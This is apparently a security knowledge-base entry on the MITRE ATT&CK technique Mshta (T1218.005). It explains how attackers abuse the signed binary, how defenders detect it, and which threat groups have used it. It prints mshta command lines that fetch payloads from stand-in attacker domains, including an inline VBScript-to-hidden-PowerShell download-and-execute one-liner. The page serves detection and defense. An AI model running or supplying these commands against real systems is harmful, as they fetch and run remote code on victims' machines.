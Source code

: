 ```yaml
---
description: Mshta [T1218.005]
icon: lock
---
```


# Mshta

## Information

* Name: Mshta
* ID: T1218.005
* Tactics: [TA0005](../)
* Technique: [T1218](./)

## Introduction

Mshta (Microsoft HTML Application Host) is a legitimate Windows utility designed to execute HTML Application (.hta) files. In the MITRE ATT\&CK framework, Mshta is categorized under sub-technique T1218.005, which falls under the broader category of Signed Binary Proxy Execution. Adversaries exploit Mshta to execute malicious scripts and payloads, leveraging its trusted status to bypass application whitelisting, evade detection, and execute arbitrary code on compromised systems.

## Deep Dive Into Technique

Mshta.exe is a signed Microsoft binary located typically in the `%SystemRoot%\System32\` directory, responsible for running HTML Application files (.hta). HTA files are standalone applications that combine HTML, CSS, JavaScript, and VBScript, running with the privileges of the executing user. Adversaries commonly abuse Mshta due to its legitimate nature and capability to execute scripts directly from command-line arguments or remote URLs, thus facilitating fileless attacks.

Technical execution methods include:

*   Direct execution of local HTA files:

    ```
    mshta.exe malicious_payload.hta
    ```
*   Execution of HTA scripts hosted remotely:

    ```
    mshta.exe http://maliciousdomain.com/payload.hta
    ```
*   Inline script execution without dropping files locally:

    ```
    mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://maliciousdomain.com/script.ps1')""")(window.close)
    ```

Mechanisms leveraged by attackers include:

* Bypassing application whitelisting controls by using trusted Windows binaries.
* Executing scripts in memory, reducing forensic footprints.
* Avoiding detection by traditional antivirus solutions, which usually trust signed Microsoft binaries.

Real-world procedures typically involve:

* Initial compromise via phishing emails or exploit kits delivering HTA payloads.
* Execution of malicious HTA files to establish persistence, download additional malware, or execute commands.
* Using Mshta to run scripts that invoke PowerShell or other scripting engines, further complicating detection and response.

## When this Technique is Usually Used

Attack scenarios and stages where Mshta is commonly employed include:

* **Initial Access**: Delivered through phishing campaigns as malicious email attachments or links to remote HTA files.
* **Execution Stage**: Used as a method to execute initial payloads and scripts immediately upon user interaction.
* **Defense Evasion**: Leveraged to bypass application whitelisting, antivirus, and endpoint detection tools by using a legitimate signed binary.
* **Persistence**: Configured to run at startup or through scheduled tasks, maintaining persistent access.
* **Command and Control (C2)**: Used to download and execute additional payloads from remote attacker-controlled servers.
* **Privilege Escalation and Lateral Movement**: Combined with other techniques, Mshta may facilitate further actions within compromised environments by executing scripts to escalate privileges or move laterally.

## How this Technique is Usually Detected

Detection methods and indicators of compromise (IoCs) associated with Mshta abuse include:

* **Process Monitoring and Logging**:
  * Monitor and alert on unusual executions of `mshta.exe`, especially those invoked from unexpected locations or processes.
  * Detect command-line arguments containing remote URLs or suspicious script content (e.g., inline VBScript or JavaScript).
* **Behavioral Analysis and Endpoint Detection Tools**:
  * Endpoint Detection and Response (EDR) solutions can identify anomalous behavior, such as Mshta spawning unexpected child processes (e.g., PowerShell, cmd.exe).
  * Monitor for abnormal network connections initiated by Mshta to external IP addresses or domains.
* **File and Registry Monitoring**:
  * Track creation or modification of `.hta` files in unusual locations (e.g., temporary directories, user profiles, startup folders).
  * Monitor registry keys associated with persistence mechanisms involving Mshta (e.g., scheduled tasks or startup items referencing HTA files).
* **Network Traffic Analysis**:
  * Inspect network traffic for HTTP/HTTPS requests initiated by Mshta to unknown or suspicious domains.
  * Analyze proxy logs and DNS queries for suspicious HTA-related requests.

Specific IoCs include:

*   Command-line executions containing patterns such as:

    ```
    mshta.exe http://[malicious_domain]/[payload].hta
    mshta.exe vbscript:Execute(...)
    ```
* Unusual parent-child process relationships, such as Mshta spawning PowerShell, cmd, or other scripting engines.
* Network connections from Mshta.exe to known malicious IP addresses or domains.

## Why it is Important to Detect This Technique

Early detection of Mshta misuse is critical due to its significant potential impacts on systems and networks, including:

* **Bypassing Security Controls**:
  * Mshta's status as a trusted Microsoft binary allows attackers to circumvent traditional security measures, including antivirus and application whitelisting.
  * Early detection prevents attackers from gaining prolonged undetected access to the environment.
* **Rapid Malware Deployment**:
  * Attackers can quickly download and execute additional malware payloads, including ransomware, remote access trojans (RATs), or credential stealers.
  * Detection reduces the risk of widespread infection and limits damage.
* **Persistence and Long-Term Access**:
  * Attackers frequently leverage Mshta to establish persistent footholds within compromised environments.
  * Early identification and remediation disrupt attacker persistence, reducing dwell time.
* **Data Theft and Exfiltration**:
  * Malicious HTA scripts can facilitate data exfiltration, enabling attackers to steal sensitive information.
  * Timely detection prevents or mitigates data loss and regulatory compliance violations.
* **Privilege Escalation and Lateral Movement**:
  * Attackers can use Mshta to execute scripts that escalate privileges or move laterally within networks.
  * Early detection limits the scope of compromise and reduces the complexity and cost of incident response efforts.

## Examples

Real-world examples demonstrating Mshta abuse include:

* **FIN7 Threat Group**:
  * Known to deliver malicious HTA files via phishing emails containing links or attachments.
  * Utilized Mshta to execute scripts downloading additional malware, such as Carbanak malware variants, to compromise financial institutions and retail organizations.
* **Cobalt Strike Framework**:
  * Attackers frequently use Cobalt Strike to generate HTA payloads designed to be executed via Mshta.
  * These payloads establish initial footholds, perform reconnaissance, and facilitate further compromise.
* **APT32 (OceanLotus)**:
  * Utilized Mshta extensively in phishing campaigns targeting governments, journalists, and corporations in Southeast Asia.
  * Delivered malicious HTA files containing embedded scripts that downloaded and executed backdoors, enabling espionage activities.
* **TrickBot Malware Campaigns**:
  * TrickBot operators have leveraged Mshta to execute HTA payloads delivered through malicious email attachments or embedded URLs.
  * These HTA files downloaded and executed TrickBot malware, which then facilitated further infection with ransomware such as Ryuk.

Typical attack scenario example:

1. Victim receives a phishing email containing a malicious attachment or URL linking to an HTA file.
2.  User opens the attachment or clicks the link, triggering Mshta execution:

    ```
    mshta.exe http://attacker-domain.com/payload.hta
    ```
3. Mshta executes embedded scripts, downloading secondary payloads or establishing persistent access.
4. Attackers gain initial foothold, escalate privileges, move laterally, and potentially exfiltrate sensitive data or deploy ransomware.

Impacts observed in these real-world cases include:

* Financial losses due to fraud or ransomware payments.
* Data breaches and sensitive information exposure.
* Operational disruptions and damages to organizational reputation.
